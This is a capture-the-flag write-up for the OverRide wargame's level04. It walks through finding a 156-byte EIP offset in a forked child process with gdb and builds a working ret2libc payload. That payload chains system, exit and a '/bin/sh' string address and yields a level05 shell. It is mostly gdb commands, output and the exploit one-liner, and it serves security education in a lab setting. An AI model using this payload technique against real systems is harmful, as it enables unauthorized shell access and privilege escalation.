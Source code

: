 # Level 4

This program asks us for some shellcode after a buffer overflow through gets, let's (not) oblige.

The subtility this time is that a lot of the stuff happens in a child process. Let's tell gdb to follow the child:
```shell
(gdb) set follow-fork-mode child
```

Now we'll find the offset of `eip` with our [usual suspect](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).
```shell
(gdb) r < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
Starting program: /home/users/level04/level04 < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[New process 31421]
child is exiting...
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 31421]
0x41326641 in ?? ()
```
Our offset is at 156

Now let's do a ret2libc attack to be contrarians. [Here's a comprehensive explanation of it I've written](https://gist.github.com/selfsigned/0a836f3d98efc512509cc042b449160a)
```shell
(gdb) p system
$1 = {
    <text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {
    <text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc map
process 31421
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
[...]
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
[...]

(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
```
Okay, `system -> 0xf7e6aed0` `exit -> 0xf7e5eb70` `"/bin/sh" -> 0xf7f897ec`

```shell
# Padding + system + exit + "/bin/sh"
level04@OverRide:~$ (python -c 'print "B"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat) | ./level04 
Give me some shellcode, k
whoami
level05
```
Yeet!
